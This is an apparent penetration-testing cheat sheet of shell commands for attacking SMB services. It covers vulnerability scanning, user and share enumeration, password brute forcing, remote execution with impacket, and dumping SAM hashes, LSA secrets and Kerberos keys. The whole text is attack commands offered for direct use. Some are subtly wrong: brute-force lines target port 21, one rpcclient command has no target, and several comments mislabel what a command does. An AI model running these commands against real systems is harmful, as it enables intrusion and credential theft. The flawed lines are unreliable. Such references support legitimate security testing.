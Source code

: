 ```shell
nmap -p 139,445 --script smb-protocols $IP    # list supported dialects
nmap -p 139,445 --script 'smb-system-info,smb-os-discovery' $IP    # show host detail
nmap -p 139,445 --script smb*-vuln* $IP    # identify known vulnerabilities
nmap -p 139,445 --script smb2* $IP    # run smb2 scripts
nmap -p 139,445 --script smb-*enum* $IP    # run all smb enum scripts

# with samba utilities
smbclient -NL $IP    # list share unauthenticated
smbclient -U '$USERNAME%$PASSWORD' -L $IP    # list share authenticated
rpcclient -U ''%'' $IP -c 'srvinfo'     # list server info unauthenticated
rpcclient -U '$USERNAME%$PASSWORD' $IP -c 'lsaenumsid'    # show local SIDs
rpcclient -U $USERNAME --password $PASSWORD $IP -c 'querydominfo'     # list domain details
rpcclient -U $USERNAME --password $PASSWORD $IP -c 'enumdomusers'     # list domain users
rpcclient -U $USERNAME --password $PASSWORD -c 'enumprivs'   # list current user privileges

# with enum4linux
enum4linux -o $IP    # show OS details unauthenticated
enum4linux -U $IP    # list users
enum4linux -r -u $USERNAME -p $PASSWORD $IP | grep -v "\\unknown"   # brute force users via SID
enum4linux -dS -u $USERNAME -p $PASSWORD $IP  # list shares and the capabilities 

# with impacket
impacket-psexec $IP -no-pass   # list shares and capablities unauthenticated
impacket-smbexec  $USERNAME:'$PASSWORD'@'$IP' -share $SHAREFOLDERNAME
impacket-lookupsid $USERNAME:'$PASSWORD'@'$DOMAIN'   # list domain users
impacket-netview $DOMAIN/'$USERNAME':'$PASSWORD'@'$IP'

# with smbmap
smbmap -u $USERNAME -p $PASSWORD -H $IP -v   # show OS details   
smbmap -u $USERNAME -p $PASSWORD -H $IP    # list all shares authenticated

# with crackmapexec
cme smb -u $USERNAME -p $PASSWORD $IP --shares    # list all shares authenticated
cme smb -u $USERNAME -p $PASSWORD $IP --users    # list all shares authenticated
cme smb -u $USERNAME -p $PASSWORD $IP -M zerologon    # identify zerologon

## CREDENTIAL ENUMERATION ##
# with hydra
hydra -t 20 -c 1 -L $USERNAMELIST -P $PASSWORDLIST -s 21 smb://$IP -V    # reveal credentials

# with impacket
impacket-samrdump $USERNAME:'$PASSWORD'@'$IP'    # extract hashes from Windows Security Account Manager (SAM)
impacket-secretsdump $USERNAME:'$PASSWORD'@'$IP'    # collect hashes, plaintext credentials and keberos keys

# with smbmap
smbmap -u $USERNAME -p $PASSWORD -H $IP -r $SHAREFOLDERNAME -A '`the filename regex`' # search and download specified pattern filename

# with crackmapexec
cme smb -u $USERNAME -p $PASSWORD $IP --sam     # extract hashes from Windows Security Account Manager (SAM)
cme smb -u $USERNAME -p $PASSWORD $IP --lsa    # extract the local security account keys
cme smb -u $USERNAMELIST -p $PASSWORDLIST $IP    # brute force username/password

# with medusa
medusa -t 2 -T 2 -U $USERNAMELIST -P $PASSWORDLIST -h $IP -n 21 -M smb | grep "SUCCESS"

## PATH ENUMERATION ##
# with smbmap
smbmap -u $USERNAME -p $PASSWORD -H $IP -R $SHAREFOLDERNAME   # list content of specified share
```